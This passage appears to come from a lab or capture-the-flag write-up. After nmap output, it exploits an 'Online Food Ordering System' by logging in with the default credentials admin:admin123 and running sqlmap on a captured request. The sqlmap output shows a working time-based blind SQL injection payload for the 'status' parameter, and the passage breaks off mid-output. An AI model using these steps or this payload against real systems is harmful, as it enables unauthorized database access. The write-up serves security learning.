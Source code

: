 ```bash
|   Some Capabilities: Support41Auth, Speaks41ProtocolNew, ConnectWithDatabase, SupportsCompression, InteractiveClient, SupportsLoadDataLocal, DontAllowDatabaseTableColumn, IgnoreSigpipes, IgnoreSpaceBeforeParenthesis, Speaks41ProtocolOld, ODBCClient, LongColumnFlag, FoundRows, SupportsTransactions, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: lWQlN!Yz}'C]+Zgu7Nd-
|_  Auth Plugin Name: mysql_native_password

```

### Exploitation

Only ports 80 and 3306 are open, so first I started checking on HTTP service, there is a login page at first redirect:

![](/assets/img/Pasted-image-20250219212838.png)

I then tried to login using Default Credentials, and I got the pair `admin:admin123`, once inside I started browsing through the interface while capturing my requests using BurpSuite, I did not identify anything like an administrative console, so I research online and found the following blog: [Online Food Ordering System - Multiple Unauthenticated SQL Injections (SQLi) ](https://fluidattacks.com/advisories/hann/).

Basically the application is full of SQLi, so I grabbed one of the captured requests:
```bash
GET /all-orders.php?status=Delivered HTTP/1.1
Host: 10.0.14.39
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://10.0.14.39/all-orders.php?status=Cancelled%20by%20Customer
Cookie: PHPSESSID=9e96pm2rkd4qvpflrlo7sbg5r1
Upgrade-Insecure-Requests: 1
```

And saved it as `req1` so I can use `sqlmap` to test for the SQLi:
```bash
sqlmap -r req1 --dbs                                                                    
[21:54:19] [INFO] GET parameter 'status' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'status' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 60 HTTP(s) requests:
---
Parameter: status (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: status=Delivered' AND (SELECT 9727 FROM (SELECT(SLEEP(5)))KVXz) AND 'qYuV'='qYuV

    Type: UNION query
```